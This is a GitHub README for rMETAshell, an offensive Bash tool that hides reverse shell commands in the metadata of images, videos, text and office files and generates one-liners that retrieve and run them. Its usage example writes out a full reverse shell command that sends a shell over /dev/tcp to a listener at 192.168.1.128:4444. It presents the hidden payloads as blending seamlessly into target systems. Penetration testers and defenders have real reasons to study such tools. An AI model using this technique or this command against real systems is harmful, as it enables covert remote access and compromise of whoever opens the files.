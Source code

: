 # rMETAshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> 
 ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 

<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rMETAshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!


# New!:

New one-liner execution methods!

Supports png, jpg, jpeg, jpe, jif, jfif, jfi, jp2, j2k, jpf, jpx, jp2a, j2c, tif, tiff, crw, cr2, dng, mrw, nef, pef, arw, rw2, sr2, srw, orf, png, gif, bmp, dib, ico, pgf, jp2, j2k, jpf, jpx, jp2a, j2c, avi, mov, qt, moov, f4v, mp4, m4a, m4b, m4p, m4v, mp4v, mqv, jp2, j2k, jpf, jpx, jp2a, j2c, mpg, mpeg, m2v, mpv, m2p, m1v, m1p, m4v, divx, xvid, txt, text, log, md, markdown, html, htm, xml, json, csv, tsv, sql, yml, yaml, ini, cfg, conf, properties, prop, props, bat, sh, bash, zsh, ps1, ps, py, python, rb, ruby, perl, pl, php, js, javascript, jsx, ts, typescript, java, c, cpp, h, cs, csharp, vb, vbnet, swift, kotlin, rust, go, groovy, scala, lua, r, sas, scss, sass, less, styl, sql, plsql, psql, tsql, vbs, vba, vbscript, powershell, ps1xml, psd1, psm1, tex, latex, ltx, bib, rtf, doc, docx, xls, xlsx, ppt, pptx and pdf injection!

# Description:

rMETAshell is a command-line tool for injecting a reverse shell command into the metadata and generating one-liner execution methods.

# How It Works:
rMETAshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Metadata-Based Shell Injection: Inject reverse shell commands into image, video, and text file metadata, ensuring seamless integration with target systems.

One-Liner Generation: Automatically generate one-liners for quick and efficient remote shell access. Choose from a variety of execution methods tailored to different file formats.

Supported File Formats: rMETAshell supports the following file formats for shell injection and one-liner generation:

Image Formats: JPEG, PNG, BMP, and more.
Video Formats: MP4, AVI, MKV, and others.
Text Formats: TXT, CSV, XML, and more.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rMETAshell
   ```

2. Change to the project directory:

   ```
   cd rMETAshell
   ```

3. Make the script executable:

   ```
   chmod +x rMETAshell.sh
   ```

## Usage

```
./rMETAshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<FILENAME>` - The name of the media file.
- `<ZIP>` -The name of the zip file where the infected file is stored.

**Example:**

```
./rMETAshell.sh "/bin/sh -i >& /dev/tcp/192.168.1.128/4444 0>&1" image.jpg test.zip
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rMETAshell.

**Warning: Ethical and Responsible Use Only
rMETAshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
